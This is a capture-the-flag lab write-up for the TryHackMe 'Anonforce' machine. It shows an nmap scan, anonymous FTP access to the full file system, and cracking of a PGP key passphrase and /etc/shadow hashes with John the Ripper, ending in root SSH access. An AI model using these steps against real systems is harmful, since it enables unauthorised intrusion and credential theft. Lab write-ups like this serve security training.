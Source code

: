 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Anonforce
# DESCRIPTION       . boot2root machine for FIT and bsides guatemala CTF
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/bsidesgtanonforce
```

```
sudo nmap -sSVC -T5 -p- 10.10.49.218 -oN anonforce
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Jan 08 22:14 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x  101 0        0               0 Jan 08 22:14 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Jan 08 22:14 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Jan 08 22:14 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8af9483e11a1aafcb78671d02af624e7 (RSA)
|   256 735dde9a886e647ae187ec65ae1193e3 (ECDSA)
|_  256 56f99f24f152fc16b77ba3e24f17b4ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 21 

- FTP seems to contain the entire file system.

- We're able to get the flag from `/home/melodias/user.txt`.

- Also, in the root directory we can see a directory that doesn't belong to the file system hierarchy by default and to which we have full access: `notread`.

- This contains 2 files, a PGP encrypted-file and its key.

- I've downloaded them both and did the following steps to reveal the content of the .pgp file

```
gpg --import private.asc
```

- But this failed as it asked for a passphase which I didn't had.

```bash
# extract the hash of the .asc file to a format readable by john.
/opt/john/run/gpg2john private.asc > hash

# bruteforce the passphase against the rockyou.txt wordlist
/opt/john/run/john hash -w=/usr/share/wordlists/rockyou.txt
```

```
x{REDACTED}0          (anonforce)     
```

- Now that we got the passphase, we can import the key and decrypt the pgp file

```
pgp --import private.asc
pgp --decrypt backup.pgp 
```

- This revealed the content of `/etc/shadow` file (that hopefully is still unaltered on the server, since this is a 'backup'.)

- What I did next was to save the content in a file and use john to try to bruteforce the hashes.

```
/opt/john/run/john shadow -w=/usr/share/wordlists/rockyou.txt
```

```
h{redacted}i           (root)     
```

- SSH into the box using the credentials above.

- The last flag is located in `/root/root.txt`.


